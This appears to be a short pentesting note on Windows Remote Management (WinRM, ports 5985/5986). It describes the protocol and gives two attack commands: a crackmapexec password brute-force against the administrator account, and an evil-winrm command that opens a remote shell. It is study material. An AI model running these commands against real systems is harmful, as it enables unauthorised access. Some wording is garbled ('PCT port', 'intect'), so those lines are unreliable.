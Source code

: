 ```yaml
---
title: 'WinRM'
description: '5985'
pubDate: 'Jul 03 2022'
tag: ['windows', 'winrm']
slug: vuln/winrm
---
```


## Information

- Windows Remote Management is a remote management protocol that can be used to remote access with windows system over HTTP(S).

- Microsoft implemented WinRM in to Windows in order to make life easier for sysadmins.

- Remote access and intect with local network.

- Manage and configure windows systems remotely.

- Uses PCT port 5985 and 5986 (HTTPS).

## Exploit WinRM

- Implements access control and security for communication between systems through various forms of authentication.

- crackmapexec to perform a brute-force on WinRM.

- Ruby script called evil-winrm to obtain a command shell session.

```bash
crackmapexec winrm target -u administrator -p /usr/share/.../unix_passwd.txt

# port 5985
evil-winrm.rb -u administrator -p 'secretpass' -i target


```

